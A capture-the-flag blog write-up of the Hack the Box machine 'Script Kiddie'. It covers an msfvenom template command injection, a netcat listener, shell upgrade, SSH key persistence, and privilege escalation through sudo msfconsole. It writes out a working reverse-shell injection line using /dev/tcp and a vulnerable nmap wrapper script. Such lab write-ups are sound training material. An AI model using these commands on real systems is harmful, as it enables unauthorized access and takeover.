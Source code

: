 +++
author = "Nick"
categories = ["hack the box", "Linux", "netcat", "ssh-keygen", "metasploit"]
date = 2021-06-05T15:00:00Z
description = ""
draft = false
thumbnail = "/images/2021/05/scriptkiddie.png"
slug = "script-kiddie"
summary = "Welcome back everyone! Today we are going to do the Hack the Box machine Script Kiddie. This is a Linux machine rated as easy. Let's jump in!"
tags = ["hack the box", "Linux", "netcat", "ssh-keygen", "metasploit"]
title = "Hack the Box - Script Kiddie"

+++


Welcome back everyone! Today we are going to do the Hack the Box machine Script Kiddie. This is a Linux machine rated as easy. Let's jump in!

As always, we kick of our scans with `nmap` - `nmap -sC -sV -p- -oA allscan 10.10.10.226`.

Here are our results:
```
Nmap scan report for 10.10.10.226
Host is up (0.049s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)| ssh-hostkey:|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)5000/tcp  open     http    Werkzeug httpd 0.16.1 (Python 3.8.5)|_http-server-header: Werkzeug/0.16.1 Python/3.8.5|_http-title: k1d'5 h4ck3r t00l559012/tcp filtered unknownService Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There isn't much to go with. We see a webserver on port 5000 and that's about it. Let's take a look.

![](/images/2021/04/image.png)

We see a basic hacking tool interface. We can scan an IP address or create payloads. We have the ability to upload a payload template as well. We test out the page and sure enough it does generate some payloads. Some googling around leads us [here](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md). A MSF Venom template CVE and PoC.

We can find this template in `Metasploit`. If we search for `template` in `MSF` we see the module:

![](/images/2021/04/image-1.png)

We list out our `options`. We have pretty much the basics, an `lport` and `lhost`.

![](/images/2021/04/image-2.png)

We'll add our IP and port and generate the payload.

![](/images/2021/04/image-4.png)

We can even do the following to spin up an automatic payload handler within `MSF` if we want. I often do this, but in this case, we'll use `netcat`.

Command:
`msf6> set DisablePayloadHandler false`

Running the exploit shows us the path the file is saved. We'll copy out the payload and upload it to our web interface we found before. We also need to have a listener running.

Command:
`nc -lvnp 4444`

We can then set our localhost on the website to 127.0.0.1 and the platform to android.

![](/images/2021/05/image.png)

Once we hit generate, we should catch a connection back.

![](/images/2021/05/image-1.png)

Now we want to upgrade this shell. First, we check for `Python` and `Python3`.

Commands:
`which python`
`which python3`

![](/images/2021/05/image-2.png)

We see `Python3` installed so we'll [upgrade our shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) with that.

Command:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now with a better shell connection, we can look around. This account does contant the `user.txt` flag, awesome! Now we can start enumerating for the `root.txt` flag. 

Next we want to find a better way tro stay connected. We can append our `ssh key` to the `authorized_keys` file for this user. First we'll want to make a new key with `ssh-keygen`.

Command:
`ssh-keygen`

We can copy the `id_rsa.pub` content into the `authorized_keys` file. Now we can just `ssh` into the box.

Command:
`ssh -i id_rsa kid@10.10.10.226`

Now that w're in, we don't even have to load `linenum.sh` or any other enumeration tools. We are able to manually access the `pwn` user account and freely look around to start.

Inside the `pwn` user account, we see a file called `scanlosers.sh` with the following code:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Can you spot the problem with this script? That's right, we can command injection into this. After some trial and error we find a command we can append the the `hackers` file to get a shell back.

Command:
`echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.116/1234 0>&1' #" >> hackers`

We quickly see the shell returned as `pwn`.

![](/images/2021/05/image-3.png)

However, `pwn` cannot access `root.txt`. So we need to look around some more. Basic enumeration shows us that we can run `msfconsole` as root.

![](/images/2021/05/image-4.png)

Awesome, let's do that. When the console loads, we get a bunch of ioctl errors but when we check our ID, we are running as `root`.

![](/images/2021/05/image-5.png)

Now we can simply cat the `root.txt` flag!

![](/images/2021/05/image-6.png)

A nice easy box with some required research and trial / error.

If you found this write-up useful, send some respect my way:
https://app.hackthebox.eu/profile/95635



